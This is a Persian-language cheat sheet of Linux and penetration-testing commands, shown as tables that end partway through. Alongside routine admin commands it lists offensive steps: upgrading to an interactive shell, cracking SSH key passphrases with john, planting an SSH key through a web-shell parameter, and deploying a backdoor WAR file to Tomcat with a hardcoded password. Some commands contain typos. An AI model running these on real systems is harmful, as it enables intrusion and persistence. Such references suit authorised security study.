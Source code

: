 ## دستورات کاربردی

| **دستور** | **توضیح** |
| :--- | :--- |
| python -c "import pty;pty.spawn('/bin/bash')" | شل interactive |
| wget http:// url -0 url.txt -o /dev/null | گرفتن آدرس |
| rdesktop ip | دسترسی به دسکتاپ ip |
| scp /tmp/file user@x.x.x.x:/tmp/file | ارسال فایل |
| scp user@ remoteip :/tmp/file /tmp/file | دریافت فایل |
| useradd -m user | اضافه نموده کاربر |
| passwd user | تغییر کلمه عبور کاربر |
| rmuser unarne | حذف کاربر |
| script -a outfile | ضبط شل : Ctrl-D برای توقف |
| apropos subject | دستورات مرتبط |
| history | تاریخچه دستورات کاربر |
| ! num | خطوط اجرایی در history |
| ssh2john.py id_rsa > ssh-key | پیدا نمودن passphrase |
| john ssh-key | پیدا نمودن passphrase |
| ssh -i id_rsa user@ip | وصل شدن با کلید و passphrase |
| id -u <username> | دریافت id کاربر |
| cut -d: -f3 < <(getent group GROUPNAME) | دریافت id گروه |
| curl -G 'http://example.com/file.php' --data-urlencode 'cmd=echo ssh-rsa AA...........' | ارسال اطلاعات با متد get در curl |
| curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file exploit.war "http://megahosting.com:8080/ma
nager/text/deploy?path=/exploit.war" | ایجاد backdoor با آسیب پذیری lfi در java |

## دستورات فایل

<table>
  <thead>
    <tr>
      <th style="text-align:left"><b>دستور</b>
      </th>
      <th style="text-align:left"><b>توضیح</b>
      </th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">diff filel file2</td>
      <td style="text-align:left">مقایسه دو فایل</td>
    </tr>
    <tr>
      <td style="text-align:left">rm -rf dir</td>
      <td style="text-align:left">حذف اجباری فولدر به صورت تو در تو</td>
    </tr>
    <tr>
      <td style="text-align:left">shred -f -u file</td>
      <td style="text-align:left">بازنوسی و یا حذف فایل</td>
    </tr>